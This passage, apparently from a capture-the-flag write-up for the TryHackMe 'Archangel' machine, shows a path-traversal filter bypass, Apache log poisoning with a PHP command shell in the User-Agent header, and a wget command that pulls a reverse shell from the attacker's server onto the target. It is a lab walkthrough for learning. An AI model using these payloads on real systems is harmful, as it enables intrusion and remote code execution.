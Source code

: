 Let's talk about what the filters are. The code is checking for two conditions. First is that the param must not contain substring **"../../"** and second is that the param must contain substring **"/var/www/html/development_testing"**. If both the conditions are true then we can access the file else it will say **"Sorry, Thats not allowed"**.

We can tackle this by using **".././../"** instead of **"../../"** to travel back directories. Now, we know that the website is running on Apache web server. So, we can access the log file(/var/log/apache2/access.log) and do the log poisoning to get a reverse shell using RCE.

Let's try and check if we can access the log file now. Keeping in mind both the conditions, this value for the parameter should retrieve the log file for us.

```
view=/var/www/html/development_testing/.././.././../log/apache2/access.log
```
{:refdef: style="text-align: center;"}
![Image]({{ "/assets/images/thm/archangel/accesslog.png" | relative_url}})
{: refdef}
<br>
Yes, we can access the log file now. To do the log poisoning in order to get RCE, we have to pass a php code snippet in the **user-agent** header while accessing any page on the website.
Following is the php snippet.
```php
<?php system($_GET['cmd']); ?>
```
Use burp suite to intercept the request and pass the code in the user-agent value like show below.
{:refdef: style="text-align: center;"}
![Image]({{ "/assets/images/thm/archangel/cmd.png" | relative_url}})
{: refdef}

Now, we can pass linux commands and get back the output for that command in the access.log file. Verify the same with **id** command. Read the source code of the page to understand better. The output of the command will be in the bottom part of the page.
```
view=/var/www/html/development_testing/.././.././../log/apache2/access.log&cmd=id
```
<br>
{:refdef: style="text-align: center;"}
![Image]({{ "/assets/images/thm/archangel/cmdid.png" | relative_url}})
{: refdef}

## Gaining Foothold:

I tried to get the netcat reverse shell using various oneliners like python, bash, nc but for some weird reason, it didn't work for me. So, I tried to transfer a php-reverse-shell and then access it directly in the browser. 
If you are using Kali or Parrot, you will find the shell in /usr/share/webshells/php directory. Change the IP in the code to your machine's IP where it says _//CHANGE THIS_
Start a webserver using python in the directory where the shell is located.
```shell
python -m SimpleHTTPServer 8888
```
{:refdef: style="text-align: center;"}
![Image]({{ "/assets/images/thm/archangel/pythonhttpserver.png" | relative_url}})
{: refdef}
<br>
Download the Shell on the target machine by using **wget** command.
```
view=/var/www/html/development_testing/.././.././../log/apache2/access.log&cmd=wget http://<your-machine-ip>:8888/shell.php
```
<br>
Verify that the shell is successfully downloaded using **ls -l** command.
{:refdef: style="text-align: center;"}